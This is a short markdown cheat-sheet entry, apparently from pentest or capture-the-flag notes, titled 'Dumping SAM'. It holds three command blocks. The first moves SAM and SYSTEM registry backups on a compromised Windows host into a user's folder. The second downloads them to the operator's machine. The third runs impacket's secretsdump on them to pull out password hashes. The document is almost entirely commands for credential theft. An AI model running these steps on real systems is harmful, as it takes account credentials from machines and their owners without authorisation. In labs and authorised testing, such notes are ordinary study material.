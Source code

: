 # Dumping SAM

Create a copy of the SAM  & SYSTEM backup:

```
move .\system.bak c:\users\jareth\documents\system.bak
move .\sam.bak c:\users\jareth\documents\sam.bak
```

Transfer the SAM & SYSTEM files to your host:

```
download C:\users\jareth\documents\system.bak
download C:\users\jareth\documents\sam.bak
```

Use impacket secretsdump to dump the SAM  & SYSTEM file locally:

```
sudo python2 secretsdump.py -sam /home/kali/sam -system /home/kali/system LOCAL 
```

